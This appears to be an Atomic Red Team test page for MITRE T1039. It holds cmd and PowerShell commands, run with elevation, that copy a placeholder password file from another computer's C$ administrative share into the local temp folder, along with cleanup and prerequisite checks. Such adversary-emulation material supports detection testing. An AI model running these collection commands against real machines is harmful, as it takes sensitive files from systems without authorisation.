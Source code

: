 ```yaml
---
tags: [T1039, atomic_test]
filename: "[[T1039|T1039 - Data from Network Shared Drive]]"
---
```

# T1039 - Data from Network Shared Drive

## Atomic Test #1 - Copy a sensitive File over Administrative share with copy
Copy from sensitive File from the c$ of another LAN computer with copy cmd
https://twitter.com/SBousseaden/status/1211636381086339073

**Supported Platforms:** Windows


**auto_generated_guid:** 6ed67921-1774-44ba-bac6-adb51ed60660





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote | Remote server name | string | 127.0.0.1|
| share_file | Remote Path to the file | path | Windows&#92;temp&#92;Easter_Bunny.password|
| local_file | Local name | string | Easter_egg.password|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy \\#{remote}\C$\#{share_file} %TEMP%\#{local_file}
```

#### Cleanup Commands:
```cmd
del \\#{remote}\C$\#{share_file}
del %TEMP%\#{local_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Administrative share must exist on #{remote}
##### Check Prereq Commands:
```powershell
if (Test-Path "\\#{remote}\C$") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host 'Please Enable "C$" share on #{remote}'
```
##### Description: "\\#{remote}\C$\#{share_file}" must exist on #{remote}
##### Check Prereq Commands:
```powershell
if (Test-Path "\\#{remote}\C$\#{share_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Out-File -FilePath "\\#{remote}\C$\#{share_file}"
```




<br/>
<br/>

## Atomic Test #2 - Copy a sensitive File over Administrative share with Powershell
Copy from sensitive File from the c$ of another LAN computer with powershell
https://twitter.com/SBousseaden/status/1211636381086339073

**Supported Platforms:** Windows


**auto_generated_guid:** 7762e120-5879-44ff-97f8-008b401b9a98





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote | Remote server name | string | 127.0.0.1|
| share_file | Remote Path to the file | path | Windows&#92;temp&#92;Easter_Bunny.password|
| local_file | Local name | string | Easter_egg.password|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
copy-item -Path "\\#{remote}\C$\#{share_file}" -Destination "$Env:TEMP\#{local_file}"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "\\#{remote}\C$\#{share_file}"
Remove-Item -Path "$Env:TEMP\#{local_file}"
```



#### Dependencies:  Run with `powershell`!
##### Description: Administrative share must exist on #{remote}
##### Check Prereq Commands:
```powershell
if (Test-Path "\\#{remote}\C$") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host 'Please Enable "C$" share on #{remote}'
```
##### Description: "\\#{remote}\C$\#{share_file}" must exist on #{remote}
##### Check Prereq Commands:
```powershell
if (Test-Path "\\#{remote}\C$\#{share_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Out-File -FilePath "\\#{remote}\C$\#{share_file}"
```




<br/>
